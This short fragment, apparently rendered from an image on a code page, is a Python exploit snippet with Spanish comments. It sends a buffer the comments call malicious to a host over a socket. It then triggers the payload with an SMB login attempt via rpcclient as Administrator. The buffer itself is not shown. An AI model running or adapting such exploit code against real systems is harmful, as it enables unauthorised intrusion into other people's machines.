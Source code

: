 ``` python
# Envío del buffer malicioso
s = socket()
s.connect(host)
s.send(buff)
s.close()

# Trigger del payload vía intento de login SMB (el resultado de auth da igual)
cmd = ["rpcclient", "-U", "Administrator%1223456", target, "-c", "exit"]
subprocess.call(cmd)
```